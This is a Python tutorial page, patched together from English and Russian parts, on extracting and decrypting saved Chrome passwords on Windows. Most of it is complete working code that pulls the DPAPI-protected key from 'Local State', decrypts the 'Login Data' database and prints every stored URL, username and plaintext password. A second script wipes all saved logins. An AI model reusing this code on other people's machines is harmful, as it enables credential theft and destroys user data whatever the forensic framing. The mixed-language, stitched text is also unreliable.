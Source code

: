 # [How to Extract Chrome Passwords in Python](https://www.thepythoncode.com/article/extract-chrome-passwords-python)
To run this:
- `pip3 install -r requirements.txt`
- To extract Chrome passwords on Windows, run:
    ```
    python chromepass.py
    ```
- To delete saved passwords on Chrome:
    ```
    python delete_chromepass.py
    ```
##
# [[] / []]()
Извлечение сохраненных паролей в самом популярном браузере является полезной и удобной криминалистической задачей, так как Chrome сохраняет пароли локально в базе данных SQLite. Однако это может занять много времени при выполнении этого вручную.

Поскольку Chrome сохраняет большую часть ваших данных о просмотре локально на вашем диске, в этом руководстве мы напишем код Python для извлечения сохраненных паролей в Chrome на вашем компьютере с Windows. Мы также сделаем быстрый скрипт, чтобы защитить себя от таких атак.

Связанные с: Создание 24 этических хакерских скриптов и инструментов с помощью Python EBook

Чтобы начать работу, давайте установим необходимые библиотеки:

pip3 install pycryptodome pypiwin32
Откройте новый файл Python и импортируйте необходимые модули:

import os
import json
import base64
import sqlite3
import win32crypt
from Crypto.Cipher import AES
import shutil
from datetime import timezone, datetime, timedelta
Прежде чем перейти непосредственно к извлечению паролей Chrome, нам нужно определить некоторые полезные функции, которые помогут нам в основной функции:

def get_chrome_datetime(chromedate):
    """Return a `datetime.datetime` object from a chrome format datetime
    Since `chromedate` is formatted as the number of microseconds since January, 1601"""
    return datetime(1601, 1, 1) + timedelta(microseconds=chromedate)

def get_encryption_key():
    local_state_path = os.path.join(os.environ["USERPROFILE"],
                                    "AppData", "Local", "Google", "Chrome",
                                    "User Data", "Local State")
    with open(local_state_path, "r", encoding="utf-8") as f:
        local_state = f.read()
        local_state = json.loads(local_state)

    # decode the encryption key from Base64
    key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    # remove DPAPI str
    key = key[5:]
    # return decrypted key that was originally encrypted
    # using a session key derived from current user's logon credentials
    # doc: http://timgolden.me.uk/pywin32-docs/win32crypt.html
    return win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]

def decrypt_password(password, key):
    try:
        # get the initialization vector
        iv = password[3:15]
        password = password[15:]
        # generate cipher
        cipher = AES.new(key, AES.MODE_GCM, iv)
        # decrypt password
        return cipher.decrypt(password)[:-16].decode()
    except:
        try:
            return str(win32crypt.CryptUnprotectData(password, None, None, None, 0)[1])
        except:
            # not supported
            return ""
Get: Build 24 Ethical Hacking Scripts & Tools with Python EBook

get_chrome_datetime() function is responsible for converting chrome date format into a human-readable date-time format.

get_encryption_key() function extracts and decodes the AES key that was used to encrypt the passwords that are stored in the "%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Local State" path as a JSON file.

decrypt_password() takes the encrypted password and the AES key as arguments and returns a decrypted version of the password.

Below is the main function:

def main():
    # get the AES key
    key = get_encryption_key()
    # local sqlite Chrome database path
    db_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local",
                            "Google", "Chrome", "User Data", "default", "Login Data")
    # copy the file to another location
    # as the database will be locked if chrome is currently running
    filename = "ChromeData.db"
    shutil.copyfile(db_path, filename)
    # connect to the database
    db = sqlite3.connect(filename)
    cursor = db.cursor()
    # `logins` table has the data we need
    cursor.execute("select origin_url, action_url, username_value, password_value, date_created, date_last_used from logins order by date_created")
    # iterate over all rows
    for row in cursor.fetchall():
        origin_url = row[0]
        action_url = row[1]
        username = row[2]
        password = decrypt_password(row[3], key)
        date_created = row[4]
        date_last_used = row[5]        
        if username or password:
            print(f"Origin URL: {origin_url}")
            print(f"Action URL: {action_url}")
            print(f"Username: {username}")
            print(f"Password: {password}")
        else:
            continue
        if date_created != 86400000000 and date_created:
            print(f"Creation date: {str(get_chrome_datetime(date_created))}")
        if date_last_used != 86400000000 and date_last_used:
            print(f"Last Used: {str(get_chrome_datetime(date_last_used))}")
        print("="*50)
    cursor.close()
    db.close()
    try:
        # try to remove the copied db file
        os.remove(filename)
    except:
        pass
Related: How to Make a Password Generator in Python.

First, we get the encryption key using the previously defined get_encryption_key() function, then we copy the SQLite database (located at "%USERPROFILE%\AppData\Local\Google\Chrome\User Data\default\Login Data" that has the saved passwords to the current directory and connects to it; this is because the original database file will be locked when Chrome is currently running.

After that, we make a select query to the logins table and iterate over all login rows. We also decrypt each password and reformat the date_created and date_last_used date times to a more human-readable format.

Finally, we print the credentials and remove the database copy from the current directory.

Let's call the main function:

if __name__ == "__main__":
    main()
The output should be something like this format (obviously, I'm sharing fake credentials):

Origin URL: https://accounts.google.com/SignUp
Action URL: ttps://accounts.google.com/SignUp
Username: email@gmail.com
Password: rU91aQktOuqVzeq
Creation date: 2020-05-25 07:50:41.416711
Last Used: 2020-05-25 07:50:41.416711
==================================================
Origin URL: https://cutt.ly/register
Action URL: https://cutt.ly/register
Username: email@example.com
Password: AfE9P2o5f5U
Creation date: 2020-07-13 08:31:25.142499
Last Used: 2020-07-13 09:46:24.375584
==================================================
Great, now you're aware that a lot of sensitive information is in your machine and is easily readable using scripts like this one.

Disclaimer: Please run this script on your machine or on a machine you have permission to access. We do not take any responsibility for any misuse.

Related: How to Use MySQL Database in Python.

Deleting Passwords
As you just saw, saved passwords on Chrome are quite dangerous to leave them there. Now you're maybe wondering how we can protect ourselves from malicious scripts like this. In this section, we will write a script to access that database and delete all rows from logins table:

import sqlite3
import os

db_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local",
                            "Google", "Chrome", "User Data", "default", "Login Data")
db = sqlite3.connect(db_path)
cursor = db.cursor()
# `logins` table has the data we need
cursor.execute("select origin_url, action_url, username_value, password_value, date_created, date_last_used from logins order by date_created")
n_logins = len(cursor.fetchall())
print(f"Deleting a total of {n_logins} logins...")
cursor.execute("delete from logins")
cursor.connection.commit()
Для этого вам потребуется закрыть браузер Chrome, а затем запустить его. Вот мой вывод:

Deleting a total of 204 logins...
Как только вы откроете Chrome на этот раз, вы заметите, что автозаполнение форм входа больше не существует. Запустите и первый скрипт, и вы заметите, что он ничего не выводит, поэтому мы успешно защитили себя от этого!

Заключение
В этом учебнике вы узнали, как написать скрипт Python для извлечения паролей Chrome в Windows, а также удалить их, чтобы предотвратить доступ злоумышленников к ним.

Обратите внимание, что в этом уроке мы говорили только о файле «Данные входа», который содержит учетные данные для входа. Я приглашаю вас изучить этот каталог более подробно.

Если вы хотите извлечь файлы cookie Chrome, этот учебник проведет вас через извлечение и расшифровку файлов cookie Chrome аналогичным образом.

Например, есть файл «История», в котором есть все посещенные URL-адреса и поиск по ключевым словам с кучей других метаданных. Существуют также «Cookies», «Media History», «Preferences», «QuotaManager», «Reporting and NEL», «Shortcuts», «Top Sites» и «Web Data».

Это все базы данных SQLite, к которым можно получить доступ. Убедитесь, что вы сделали копию, а затем открыли базу данных, чтобы не закрывать Chrome всякий раз, когда захотите получить к ней доступ.